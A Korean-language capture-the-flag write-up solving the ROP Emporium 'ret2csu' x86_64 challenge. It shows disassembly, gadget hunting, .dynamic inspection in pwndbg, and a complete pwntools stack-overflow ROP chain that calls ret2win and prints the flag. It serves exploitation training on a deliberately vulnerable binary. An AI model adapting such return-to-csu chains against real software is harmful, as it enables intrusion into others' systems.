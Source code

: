 # [ret2csu](https://ropemporium.com/challenge/ret2csu.html)
<br />

**Description:**
> We're back in ret2win territory, but this time with no useful gadgets.
How will we populate critical registers without them?

<br />
<br />

# x86_64

**Binary Protections:**
```yaml
ret2csu: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f722121b08628ec9fc4a8cf5abd1071766097362, not stripped

[*] '/home/kali/ROP/ret2csu'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />

> [!CAUTION]
> > This challenge is very similar to "callme", with the exception of the useful gadgets. Simply call the ret2win() function in the accompanying library with the same arguments you used to beat the "callme" challenge `(ret2win(0xdeadbeef, 0xcafebabe, 0xd00df00d)` for the ARM & MIPS binaries, `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` for the x86_64 binary).

<br />

rop 공격을 준비하기 위해 필요한 가젯을 구해야 합니다. 하지만 해당 바이너리에 저장된 심볼 중에는 `pop`, `mov`, `xchg` 등 `rdx`에 값을 전달할 가젯이 존재하지 않습니다. 

문제에서 언급되는 [논문](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf)은 64비트 리눅스를 대상으로 `__libc_csu_init`을 이용해 ASLR을 우회하는 `Return-to-csu` 공격 기법을 설명합니다. `__libc_csu_init`의 내부 가젯을 통해 `rdi`, `rsi`, `rdx` 등 주요 레지스터를 제어할 수 있어 libc 주소 유출과 `system('/bin/sh')`와 같은 최종 공격을 수행하는 것이 가능합니다.

<br />

```yaml
$ objdump -d ret2csu
Disassembly of section .text:
...
0000000000400617 <usefulFunction>:
  400617:       55                      push   %rbp
  400618:       48 89 e5                mov    %rsp,%rbp
  40061b:       ba 03 00 00 00          mov    $0x3,%edx
  400620:       be 02 00 00 00          mov    $0x2,%esi
  400625:       bf 01 00 00 00          mov    $0x1,%edi
  40062a:       e8 e1 fe ff ff          call   400510 <ret2win@plt>
  40062f:       90                      nop
  400630:       5d                      pop    %rbp
  400631:       c3                      ret
  400632:       66 2e 0f 1f 84 00 00    cs nopw 0x0(%rax,%rax,1)
  400639:       00 00 00
  40063c:       0f 1f 40 00             nopl   0x0(%rax)

0000000000400640 <__libc_csu_init>:
  ...
  400680:       4c 89 fa                mov    %r15,%rdx
  400683:       4c 89 f6                mov    %r14,%rsi
  400686:       44 89 ef                mov    %r13d,%edi
  400689:       41 ff 14 dc             call   *(%r12,%rbx,8)
  40068d:       48 83 c3 01             add    $0x1,%rbx
  400691:       48 39 dd                cmp    %rbx,%rbp
  400694:       75 ea                   jne    400680 <__libc_csu_init+0x40>
  400696:       48 83 c4 08             add    $0x8,%rsp
  40069a:       5b                      pop    %rbx
  40069b:       5d                      pop    %rbp
  40069c:       41 5c                   pop    %r12
  40069e:       41 5d                   pop    %r13
  4006a0:       41 5e                   pop    %r14
  4006a2:       41 5f                   pop    %r15
  4006a4:       c3                      ret
  4006a5:       90                      nop
  4006a6:       66 2e 0f 1f 84 00 00    cs nopw 0x0(%rax,%rax,1)
  4006ad:       00 00 00
```
```yaml
$ ROPgadget --binary ret2csu | grep rdi
0x00000000004006a3 : pop rdi ; ret
```
- `retwin@plt = 0x400510`
- `pop rbx ; ... pop r15 ; ret = 0x40069a`
- `mov rdx, r15 ; ... pop r15 ; ret = 0x400680`
- `pop rdi ; ret = 0x4006a3`

<br />

```yaml
  400680:       4c 89 fa                mov    %r15,%rdx
  400683:       4c 89 f6                mov    %r14,%rsi
  400686:       44 89 ef                mov    %r13d,%edi
  400689:       41 ff 14 dc             call   *(%r12,%rbx,8)
  ...
```
각 명령어를 수행하고, `call addr`를 호출합니다. `r12`는 베이스 주소, `rbx, 8`은 인덱스를 의미합니다. 따라서 `r12 = 호출하고 싶은 함수의 주소`, `rbx = 0`을 세팅하면 원하는 함수를 호출할 수 있습니다.

그리고 위 명령어 중 `mov edi, r13d`가 수행되는데, 이는 `rdi`의 하위 4바이트 밖에 저장되지 않습니다. 그래서 `ret2win`을 바로 호출하면 `rdi = 0xdeadbeefdeadbeef` 조건 때문에 flag가 출력되지 않습니다. 따라서 주요 레지스터를 건드리지 않으면서 다음 공격을 수행하기에 유리한 `init` 또는 `fini`를 호출해야 합니다.

<br />
<br />

```bash
$ readelf -d ret2csu

Dynamic section at offset 0xe00 contains 26 entries:
  Tag        Type                         Name/Value
 ...
 0x000000000000000c (INIT)               0x4004d0
 0x000000000000000d (FINI)               0x4006b4
 0x0000000000000019 (INIT_ARRAY)         0x600df0
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600df8
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 ...

pwndbg> telescope 0x600df0 12
...
09:0048│  0x600e38 (_DYNAMIC+56) —▸ 0x4004d0 (_init) ◂— sub rsp, 8
0a:0050│  0x600e40 (_DYNAMIC+64) ◂— 0xd /* '\r' */
0b:0058│  0x600e48 (_DYNAMIC+72) —▸ 0x4006b4 (_fini) ◂— sub rsp, 8

pwndbg> x/10gx &_DYNAMIC
0x600e00:       0x0000000000000001      0x0000000000000001
0x600e10:       0x0000000000000001      0x0000000000000038
0x600e20:       0x000000000000001d      0x0000000000000078
0x600e30:       0x000000000000000c      0x00000000004004d0
0x600e40:       0x000000000000000d      0x00000000004006b4
pwndbg> x/a 0x600e38
0x600e38:       0x4004d0 <_init>
pwndbg> x/a 0x600e48
0x600e48:       0x4006b4 <_fini>
```
`.dynamic`에는 `.init_array`, `.fini.array` 등 태그 값이 들어 있으며, `readelf -d`와 같은 명령어로 시작 주소를 알 수 있습니다. 이 주소를 가지고 `telescope`, `x/gx &_DYNAMIC`와 같은 명령어로 실제 함수 포인터인 `init`과 `fini`의 주소를 찾을 수 있습니다.

<br />

> [!CAUTION]
> ```yaml
>  400689:       41 ff 14 dc             call   *(%r12,%rbx,8)
>  40068d:       48 83 c3 01             add    $0x1,%rbx
>  400691:       48 39 dd                cmp    %rbx,%rbp
>  400694:       75 ea                   jne    400680 <__libc_csu_init+0x40>
>  400696:       48 83 c4 08             add    $0x8,%rsp
> ```
> 위 명령어 수행 순서를 보면 `rbx += 1`을 하고 바로 `rbp`와 `rbx`를 비교합니다. 조건을 통과하지 못하면 `0x400680`로 점프해버리니 주의해야 합니다. 그리고 `add rsp, 0x8`로 인해 `rsp`를 `0x8`만큼 높은 주소로 이동시키므로, `rsp`가 이동한 만큼 오프셋을 보정해야 합니다.

<br />
<br />

```python
from pwn import *

context.log_level = 'error'

p = process('./ret2csu')

pay = b'A'*40
pay += p64(0x40069a)             # pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
pay += p64(0)                    # rbx
pay += p64(1)                    # rbp
pay += p64(0x600e48)             # r12
pay += p64(0xdeadbeefdeadbeef)   # r13
pay += p64(0xcafebabecafebabe)   # r14
pay += p64(0xd00df00dd00df00d)   # r15

pay += p64(0x400680)   # mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call target ; ... ret
pay += p64(0)          # add rsp, 8
pay += p64(0)          # rbx
pay += p64(0)          # rbp
pay += p64(0)          # r12
pay += p64(0)          # r13
pay += p64(0)          # r14
pay += p64(0)          # r15

pay += p64(0x4006a3)  # pop rdi ; ret
pay += p64(0xdeadbeefdeadbeef)
pay += p64(0x400510)  # ret2win

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
ret2csu by ROP Emporium
x86_64

Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.

> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```
